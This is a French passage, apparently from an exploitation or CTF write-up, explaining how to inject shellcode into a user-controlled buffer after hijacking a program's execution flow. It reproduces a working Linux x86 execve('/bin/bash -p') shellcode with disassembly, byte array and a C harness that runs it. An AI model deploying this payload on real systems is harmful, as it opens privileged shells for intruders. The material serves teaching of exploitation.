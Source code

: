 > Cette méthode permet d'afficher 200 octets de la pile en hexadécimal à partir de l'adresse contenue dans le registre EBP (_Base Pointer_).

### Génération du _shellcode_

Une fois le flot d'exécution du programme détourné, l'objectif consiste à injecter du code (plus précisement une suite d'instructions, ou _opcodes_) contrôlé dans la mémoire du programme. Le tampon `terminal` paraît être un choix judicieux, ce dernier étant maîtrisé par l'utilisateur et pouvant contenir jusqu'à 260 octets.

Le site ShellStorm (http://shell-storm.org/shellcode/) recense des dizaines de _shellcodes_ (suite d'_opcodes_) pour différentes architectures processeurs.

Dans le cas présent, la machine exploitée étant une machine GNU/Linux i686 (Intel x86), le _shellcode_ "Linux/x86 execve /bin/sh shellcode 23 bytes" (http://shell-storm.org/shellcode/files/shellcode-606.php) présente un bon exemple car il permet de créer un processus de type _shell_ interactif et ne compte que 33 octets, ce qui rentre dans le tampon (ce dernier pouvant contenir jusqu'à 260 octets).

```
Title: 	Linux x86 - execve("/bin/bash", ["/bin/bash", "-p"], NULL) - 33 bytes
Author:	Jonathan Salwan
Mail:	submit@shell-storm.org
Web:	http://www.shell-storm.org

!Database of Shellcodes http://www.shell-storm.org/shellcode/


sh sets (euid, egid) to (uid, gid) if -p not supplied and uid < 100
Read more: http://www.faqs.org/faqs/unix-faq/shell/bash/#ixzz0mzPmJC49

sassembly of section .text:

08048054 <.text>:
 8048054:	6a 0b                	push   $0xb
 8048056:	58                   	pop    %eax
 8048057:	99                   	cltd   
 8048058:	52                   	push   %edx
 8048059:	66 68 2d 70          	pushw  $0x702d
 804805d:	89 e1                	mov    %esp,%ecx
 804805f:	52                   	push   %edx
 8048060:	6a 68                	push   $0x68
 8048062:	68 2f 62 61 73       	push   $0x7361622f
 8048067:	68 2f 62 69 6e       	push   $0x6e69622f
 804806c:	89 e3                	mov    %esp,%ebx
 804806e:	52                   	push   %edx
 804806f:	51                   	push   %ecx
 8048070:	53                   	push   %ebx
 8048071:	89 e1                	mov    %esp,%ecx
 8048073:	cd 80                	int    $0x80

*/

#include <stdio.h>

char shellcode[] = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70"
		   "\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61"
		   "\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52"
		   "\x51\x53\x89\xe1\xcd\x80";

int main(int argc, char *argv[])
{
       	fprintf(stdout,"Length: %d\n",strlen(shellcode));
	(*(void(*)()) shellcode)();       
}
```